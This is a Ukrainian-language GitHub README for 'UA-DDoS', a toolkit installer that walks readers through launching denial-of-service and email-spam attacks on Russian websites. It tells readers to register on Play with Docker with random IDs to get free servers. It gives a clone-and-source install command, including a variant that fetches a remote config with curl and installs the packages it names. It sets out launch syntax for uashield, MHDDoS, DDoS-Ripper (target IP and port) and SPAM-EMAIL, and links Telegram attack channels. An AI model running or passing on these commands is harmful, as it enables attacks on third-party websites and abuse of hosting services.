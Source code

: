 ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/ukraine.svg)

> [**Read in English**](README-en.md)

# UA-DDoS ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/mini_ukraine.svg)

![GitHub](https://img.shields.io/github/license/BogdanDevUA/UA-DDoS)

## Запускайте в Git bash або в [PWD](https://labs.play-with-docker.com/) (Play with docker)

Спочатку зареєструйтесь в **PWD**

[![Try in PWD](https://raw.githubusercontent.com/play-with-docker/stacks/master/assets/images/button.png)](https://labs.play-with-docker.com/)

Якщо що - пишіть <https://t.me/dirim>

Я допоможу

## Деплой

### Переходимо на сайт і натискаємо _login_ -> _docker_

Вас перекине на нове вікно

![](images/1.png)

### В полі ___Docker ID___ пишемо рандомні букви-цифри (запишіть їх десь)

![](images/2.png)

### Після реєстрації - ви маєте сервер!

![](images/3.png)

#### Тепер ви можете валити російські сайти по повній програмі!

## Установка

```sh
git clone https://github.com/BogdanDevUA/UA-DDoS.git \
  && . UA-DDoS/install.sh
```

Цю дію треба робити тільки один раз

## Інструкція

```text
В аргуметах (наприклад ddos-ripper -s <ip>), треба писати так:

ddos-ripper -s 123.45.67.89
Не ddos-ripper -s <123.45.67.89>

Аргументи в квадратних дужках - рекомендовані параметри

Наприклад:
uashield 500 true

std - стандартизовані параметри, можна не вказувати

Наприклад:
ddos-ripper -s 123.45.67.89

Порт 80 буде автоматично вказано
Щоб вказати інший порт, допишіть -p <port>

Якщо хочеш завантажити інші програми:
load <автор> <репозиторій>

Наприклад:
load opengs uashield

Запуск uashield: uashield <потоки[500]> <проксі[true]>
Запуск MHDDoS: mhddos
Запуск DDoS-Ripper: ddos-ripper -s <ip> -p <порт[std:80]>
Запуск SPAM-EMAIL: spam-email

Ви можете заливати свої конфіги
Приклад:

echo "(<aythor> <repo> <build[std:none])" >> config.txt
echo "(<aythor> <repo> <build[std:none])" >> config.txt
...
І так далі
В кінці напишіть echo "." >> config.txt

Ви можете створити свій репозиторій на GitHub з конфігом
Щоб завантажити власний пакет з GitHub:

git clone https://github.com/BogdanDevUA/UA-DDoS.git \
  && . UA-DDoS/install.sh $(curl https://raw.githubusercontent/<author>/<repo>/<branch>/config.txt)

Тоді будуть установлені ваші пакети
``` 

### Думаю все зрозуміло, тепер ти можеш дудосити російські сайти) !


## Ресурси:

* > [**uashield**](https://github.com/opengs/uashield)

* > [**MHDDoS**](https://github.com/MHProDev/MHDDoS)

* > [**DDoS-Ripper**](https://github.com/palahsu/DDoS-Ripper)

* > [**SPAM-EMAIL**](https://github.com/mkdirlove/SPAM-EMAIL)

## Чати та канали телеграм по DDoS:
* <https://t.me/UAcyberfront/9> ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/mini_ukraine.svg)

* [**Cyber Hackers UA**](https://t.me/CyberHackersUA)


## Слава Україні! ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/mini_ukraine.svg)
